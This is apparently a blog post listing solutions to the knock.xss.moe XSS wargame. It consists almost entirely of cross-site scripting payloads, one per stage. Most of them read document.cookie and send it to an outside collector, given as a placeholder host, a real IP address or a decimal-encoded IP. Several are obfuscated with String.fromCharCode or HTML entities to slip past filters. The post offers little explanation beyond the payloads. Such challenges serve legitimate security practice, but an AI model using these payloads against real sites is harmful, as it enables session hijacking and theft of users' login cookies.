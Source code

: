 ```yaml
---
layout : post
title : knock.xss.moe
---
```



All solution
Ranking #41
{% highlight python linenos %}
stage3:
http://68e3b596ebf790e8a781b8d87b84af7eb7b0aeb3.knock.xss.moe/?q=%22%3E%3Cscript%20language%3D%22JavaScript%22%3Edocument.location%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%27%2bdocument.cookie%3B%3C%2fscript%3E

stage5:
</textarea><script>alert('xxx')</script>

stage6:
</xmp><script>alert('xxx')</script>
{% endhighlight %}

stage7:
```javascript
http://8005f6694d2862438bad3715436522e27dbd81a4.knock.xss.moe/?q=%22%20onfocus%3D%22%20location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%22%20autofocus%3D%22
```
stage8

stage9:
http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=%00%00%20autofocus%20onfocus%3Dlocation.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie


stage10:
http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=javascript:document.location.href='http://xxx/get_cookie.php?cookie'+document.cookie

stage11:
<iframe src="XSS"></iframe>
http://38e585f94f9d1f6bb79e88b74f3a5b5871d5bb84.knock.xss.moe/?q=javascript%3Adocument.location.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%22%2bdocument.cookie%3B

stage12:

javascript:window.open(`http://xxxx/?x=`+document.cookie)


stage13:
<script language=javascript>eval(String.fromCharCode(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 46, 104, 114, 101, 102, 61, 39, 104, 116, 116, 112, 58, 47, 47, 103, 111, 111, 103, 108, 101, 46, 99, 111, 109, 39 ))</script>


stage 14:
http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?document.domain=%22knock.xss.moe%22;eval(String.fromCharCode(119,%20105,%20110,%20100,%20111,%20119,%2046,%20111,%20112,%20101,%20110,%2040,%2034,%20104,%20116,%20116,%20112,%2058,%2047,%2047,%2049,%2049,%2056,%2046,%2054,%2057,%2046,%2049,%2051,%2053,%2046,%2049,%2054,%2051,%2047,%20103,%20101,%20116,%2095,%2099,%20111,%20111,%20107,%20105,%20101,%2046,%20112,%20104,%20112,%2063,%2099,%20111,%20111,%20107,%20105,%20101,%2061,%2034,%2043,%20112,%2097,%20114,%20101,%20110,%20116,%2046,%20100,%20111,%2099,%20117,%20109,%20101,%20110,%20116,%2046,%2099,%20111,%20111,%20107,%20105,%20101,%2041))

stage 15:
http://e3bcee011cad77ba066ca7c2ad2884372aec9566.knock.xss.moe/?q=%3Cimg%20src%3D1%20onerror%3Dwindow.location.href%3D%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3B%3E


stage 17:
http://34a131df991487bf58d3df0a85e247d396fb93a0.knock.xss.moe/?q=javascript%3Alocation.href%3D%22http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%3D%22%2bdocument.cookie


stage 19:
<body onload="alert('XXX, &#039; ,0,window.open(&#039;http://xxx/get_cookie.php?cookie&#039; document.cookie));"//')">
http://224d0c5677307d743ba90c8f81e42f5be648cd97.knock.xss.moe/?q=1%27%2C0%2Cwindow.open%28%27http%3A%2f%2fxxx%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%29%29%3B%2f%2f


stage 21:
X-XSS-Protection:1; mode=block
http://49ab9ff165cd76ffe06af0b72f450c82f35db396.knock.xss.moe/?q=%3CscripT%3Edocument.locascripttion.href%3D%27http%3A%2f%2f118.69.135.163%2fget_cookie.php%3Fcookie%27%2bdocument.cookie%3C%2fsCripT%3E


stage 22:
http://bcd699e871d46c191f3c43a7197c18440b308507.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f1984268195%2f%3Fx%3D%22%2bdocument.cookie%29%3E


Local file:
<script>
window.name = "location.href='http://xxxx/?'+document.cookie";
location.href = "http://target.knock.xss.moe/?q=%3Csvg/onload=eval(name)%3E";
</script>

stage 23 & 24:
http://51b123fbd6a21b3cf43f49e0a1014221e191c7db.knock.xss.moe/?q=<svg/onload=window.open("//118.69.135.163")>

stage 25:
http://8e67e39d7e01213d5551c696ef8641b625cc8dd7.knock.xss.moe/?q=%3Ciframe%20src%3D%27%2f%2f118.69.135.163%27%3E

stage 26:
http://89078a2f1f0b7d9f210b1876f4b20ada0a090ebb.knock.xss.moe/?q=%3CIMG%20SRC%3D1%20onerror%3D%26%23119%3B%26%23105%3B%26%23110%3B%26%23100%3B%26%23111%3B%26%23119%3B%26%2346%3B%26%23111%3B%26%23112%3B%26%23101%3B%26%23110%3B%26%2340%3B%26%2334%3B%26%2347%3B%26%2347%3B%26%2349%3B%26%2349%3B%26%2356%3B%26%2346%3B%26%2354%3B%26%2357%3B%26%2346%3B%26%2349%3B%26%2351%3B%26%2353%3B%26%2346%3B%26%2349%3B%26%2354%3B%26%2351%3B%26%2347%3B%26%23103%3B%26%23101%3B%26%23116%3B%26%2395%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2346%3B%26%23112%3B%26%23104%3B%26%23112%3B%26%2363%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2334%3B%26%2343%3B%26%23100%3B%26%23111%3B%26%2399%3B%26%23117%3B%26%23109%3B%26%23101%3B%26%23110%3B%26%23116%3B%26%2346%3B%26%2399%3B%26%23111%3B%26%23111%3B%26%23107%3B%26%23105%3B%26%23101%3B%26%2341%3B%3E



stage 27:
http://295a1d900c5bf618101abf69083622d0f69aded1.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%27location%27%5D%3D%22http%3A%2f%2f%2f1984268195%2f%3F%22%2bdocument%5B%27cookie%27%5D%3

stage 28:
http://02f6f47ddaa7b22137a74843f2c4f1ac915dda3b.knock.xss.moe/?q=%3Cimg%20src%3Dx%20onerror%3Dwindow%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D%3E

stage 29:
http://a4bf8393a4159b94aa4b84e9a134d5e6140f3c34.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D


stage 30:

http://ebf510ac2d79576cd5b7d45412eaf3eed1781bd0.knock.xss.moe/?q=window%5B%60location%60%5D%3D%60http%3A%2f%2f%2f1984268195%2f%3F%60%2bdocument%5B%60cookie%60%5D

stage 31:
http://bb84607f02113a22396438c9a67e4c5abdfd6561.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 32:
http://859c559a54a1e9b761f8dae102af5edb2ab44215.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 33:
http://b236561a32729676d1ec2231e8726a0b5ee5bf57.knock.xss.moe/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29

stage 34:
http://[stage34]/?q=%3Csvg%2fonload%3Dwindow.open%28%22%2f%2f118.69.135.163%2fget_cookie.php%3F%22%2bdocument.cookie%29


Thanks @ml and @tsu for sharing!
